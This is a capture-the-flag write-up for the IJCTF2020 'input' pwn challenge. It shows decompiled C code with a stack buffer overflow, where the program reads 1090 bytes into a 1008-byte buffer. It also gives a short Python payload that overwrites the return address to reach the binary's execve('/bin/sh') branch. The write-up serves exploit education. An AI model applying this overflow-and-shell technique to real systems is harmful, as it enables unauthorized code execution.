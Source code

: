 
## input
### Description


### Attachment

[input](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/IJCTF2020/pwn/input/input)

### Analysis

#### buffer overflow

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3){
  unsigned int v3; // eax
  __int64 v4; // rax
  char fd; // [rsp+0h] [rbp-640h]
  char v7[1008]; // [rsp+210h] [rbp-430h]
  int rnd1; // [rsp+600h] [rbp-40h]
  int rnd2; // [rsp+604h] [rbp-3Ch]
  int rnd3; // [rsp+608h] [rbp-38h]
  int rnd4; // [rsp+60Ch] [rbp-34h]
  int rnd5; // [rsp+610h] [rbp-30h]
  int chr; // [rsp+61Ch] [rbp-24h]
  __int64 const_4; // [rsp+620h] [rbp-20h]
  int j; // [rsp+628h] [rbp-18h]
  int i; // [rsp+62Ch] [rbp-14h]

  const_4 = 4LL;
  v3 = sub_401371(8u, 4);
  std::basic_ifstream<char,std::char_traits<char>>::basic_ifstream(&fd, "/dev/urandom", v3);
  for ( i = 0; i <= 4; ++i )
    std::istream::read(&fd, &rnd1 + 4 * i, const_4);
  if ( rnd1 == rnd2 && rnd2 == rnd3 && rnd3 == rnd4 && rnd4 == rnd5 )
    execve("/bin/sh", 0LL, 0LL);
  std::operator<<<std::char_traits<char>>(&std::cout, "Input: ");
  for ( j = 0; j <= 1089; ++j )
  {
    chr = getchar();
    v7[j] = chr;
  }
  v4 = std::operator<<<std::char_traits<char>>(&std::cout, v7);
  std::ostream::operator<<(v4, &std::endl<char,std::char_traits<char>>);
  std::basic_ifstream<char,std::char_traits<char>>::~basic_ifstream(&fd);
  return 0LL;
}
```

`getchar` 1089 times to `v7[1008]`

### Solution

```python
offset = 1048
payload = cyclic(offset)
payload += '\x37'
payload += p64(0x0401253)
payload = payload.ljust(0x441,'A')
# debug('b *0x40129e')
sl(payload)
```




### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/IJCTF2020/pwn/input) 


